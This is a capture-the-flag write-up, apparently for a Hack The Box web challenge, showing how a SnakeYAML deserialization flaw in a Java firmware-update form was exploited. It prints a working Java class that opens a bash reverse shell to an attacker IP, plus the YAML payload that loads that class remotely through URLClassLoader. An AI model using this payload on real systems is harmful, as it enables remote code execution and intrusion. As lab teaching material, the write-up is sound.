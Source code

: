 ### Challenge description

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/4d31fc8b-b075-4764-ad6f-cbcff75d109b)

This page greets us with some IOT looking stuff. Something about water levels in some tanks:

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/1b5e8ee1-8c68-4bc8-8f4d-e5b104ea9d96)

It gives us the option to do a Firmware Update based on user inputted configuration. Uh oh!

![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/9dda62e7-3d37-4a6e-bc86-94e49cf7eb24)

Looking through the source code, specifically the `pom.xml` file where all the dependencies are for Java based web applications, we find it is using `snakeyaml`:  
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/5a7638b9-9a46-4d87-88f0-df3317c09995)

There are some well-known exploits for yaml deserialization, including for snakeyaml. A good resource that I used can be found here: https://swapneildash.medium.com/snakeyaml-deserilization-exploited-b4a2c5ac0858

I tested the payload from the blog trying to get a callback to myself:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/8eff38ef-a129-4c0b-96cd-0e15b5cec67d)

Even though it says that "an error occured", we do get a callback:
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/748899c8-d335-4585-b2a6-e07b35b3219c)

In this case all we need is to setup our files in the correct folders and with the correct names.

#### Step 1: Create exploit.java with a reverse shell payload:

```java
package snakeyaml;

import javax.script.ScriptEngine;
import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class exploit implements ScriptEngineFactory {

    public exploit() {
        try {
            Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/10.10.14.76/1338 0>&1");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public String getEngineName() {
        return null;
    }

    @Override
    public String getEngineVersion() {
        return null;
    }

    @Override
    public List<String> getExtensions() {
        return null;
    }

    @Override
    public List<String> getMimeTypes() {
        return null;
    }

    @Override
    public List<String> getNames() {
        return null;
    }

    @Override
    public String getLanguageName() {
        return null;
    }

    @Override
    public String getLanguageVersion() {
        return null;
    }

    @Override
    public Object getParameter(String key) {
        return null;
    }

    @Override
    public String getMethodCallSyntax(String obj, String m, String... args) {
        return null;
    }

    @Override
    public String getOutputStatement(String toDisplay) {
        return null;
    }

    @Override
    public String getProgram(String... statements) {
        return null;
    }

    @Override
    public ScriptEngine getScriptEngine() {
        return null;
    }
}
```
#### Step 2. Compile `exploit.java` and put the resulted `exploit.class` file in a folder called `snakeyaml`. This is done automatically with the syntax below because I specify the package in the code above.

```bash
javac -d . exploit.java
```

#### Step 3: Create folder `META-INF` and inside it another folder called `services`. Create a file called `javax.script.ScriptEngineFactory` with the content being: `snakeyaml.exploit`

#### Step 4: Host these on port 80 or whatever port you will mention in your yaml payload on the "Firmware Update".
#### Step 5: Send the payload below in the `/update` endpoint:

```xml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.76/"]
  ]]
]
```
Once we do that, we can see we get a callback on our netcat listener and can read the flag.
![image](https://github.com/LazyTitan33/CTF-Writeups/assets/80063008/d4f9acc4-8f36-4b7c-acbb-1b53cec9e1de)

HTB{r1d3_th3_sn4k3}

